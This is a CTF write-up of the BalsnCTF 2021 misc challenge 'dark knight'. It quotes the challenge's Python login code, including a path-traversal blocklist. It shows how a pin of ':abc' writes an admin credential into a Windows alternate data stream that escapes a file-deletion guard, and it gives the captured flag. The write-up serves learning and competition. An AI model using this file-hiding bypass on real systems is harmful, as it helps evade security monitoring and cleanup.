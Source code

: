 # dark knight - BalsnCTF 2021


# Challenge Description

dark knight

Category: Misc

Author: 424275

Verifier: nawmrofed(1hr)

Solves: 12 / 278

once upon the ime, there was a dark knight who kills every admin he met...

```markdown
nc darkknight.balsnctf.com 8084
```

# Inspection

From the provided challenge file, we know that our goal is to login with the username 'admin', then we will get the flag after entering the passcode 'plz'. 

```python
if username != None and password != None:
  print(f"hello, {username}.")
  if username == "admin":
      while True:
          x = input("do you want the flag? (y/n): ")
          if x == "n":
              print("OK, bye~")
              return
          elif x == "y":
              break
          else:
              print("invalid input.")
      while True:
          x = input("beg me: ")
          if x == "plz":
              print("ok, here is your flag: BALSN{flag is here ...}")
              break
```

There are two way to login, fast login and normal login. The normal login seems safe so we will check the fast login. We can see that there is a fast login that takes a pin code and retrieve the username and password from the file with the same name. 

```python
def fast_login():
    while True:
        pin = input("enter a pin code > ")
#... some checks on pin code
#...
				if "\\" in pin or "/" in pin or ".." in pin:
            print("what do you want to do?(¬_¬)")
            continue
#... some more checks on pin code
#...
    try:
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                print("unknown error happened??")
                return None, None
            return data[0], data[1]
    except FileNotFoundError:
        print("this pin code is not registered.")
        return None, None
```

There is also a password manager that allow us to write our account into a file so we can login with those later. However, the server will check for all file in the directory, and delete all file that stores an admin account. 

```python
def safety_guard():
    print("safety guard activated. will delete all unsafe credentials hahaha...")
    delete_file = []
    for pin in os.listdir("."):
        safe = True
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                safe = False
            elif len(data[0]) == 0 or len(data[1]) == 0:
                safe = False
            elif data[0].isalnum() == False or data[1].isalnum() == False:
                safe = False
            elif data[0] == "admin":
                safe = False

        if safe == False:
            os.remove(pin)
            delete_file.append(pin)
    
    print(f"finished. delete {len(delete_file)} unsafe credentials: {delete_file}")
```

# Solution

The idea will be to find a place to write the admin account without being listed by os.listdir() so that the file wouldn't be deleted. However, the black list on the file name also forced us to stay in the current directory, that means we need to find other ways to bypass the safe guard. I first tried to write directly to drive such as 'C:' but that leads to nothing, but we I was trying that, I notice some strange behaviors with the colon symbol ':'. After randomly trying different filenames, I got the flag out of pure chance

```
1. passord manager
2. login
3. exit
what do you want to do? > 1
use a short pin code to achieve fast login!!
enter a pin code > :abc
enter username > admin
enter password > 123
saved!!
1. passord manager
2. login
3. exit
what do you want to do? > 2
safety guard activated. will delete all unsafe credentials hahaha...
finished. delete 0 unsafe credentials: []
1. fast login
2. normal login
3. exit
enter login type > 1
enter a pin code > :abc
hello, admin.
do you want the flag? (y/n): y
beg me: plz
ok, here is your flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
```

flag: `BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}`

I later learned that I'm writing into an alternate data stream (ads), which isn't a file, so os.listdir() couldn't find it. It seems like that windows ads have been abused by many to write hidden data into the system, and have suffer bad reputations because of that.

